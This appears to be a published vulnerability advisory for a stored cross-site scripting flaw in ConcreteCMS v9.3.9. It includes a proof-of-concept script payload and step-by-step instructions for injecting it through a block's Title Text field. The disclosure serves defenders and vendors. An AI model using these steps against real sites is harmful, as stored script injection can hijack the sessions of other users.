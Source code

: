 # Exploit Title: Concretecms v9.3.9 - Cross-Site Scripting (XSS)
## Date: 3/13/2025
## Vendor Homepage: https://github.com/concretecms/concretecms
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Concretecms
## Version: v9.3.9
## Exploit Description:
## ConcreteCMS v9.3.9 suffers from a Stored Cross-Site Scripting (XSS) vulnerability in the Title Text field when adding a Page Attribute Display block. This vulnerability allows attackers to cheat other users by injecting malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------

```
<script>alert('Title Text');</script>

```

1. Log in as a user with page editing privileges.
2. Click "add content to the page" in the top navigation.
3. Select the Page Attribute Display block , drag and drop it to the page.
4. Add <script>alert('Title Text');</script> to the Title Text field and then click ADD,the xss vulnerability appears.

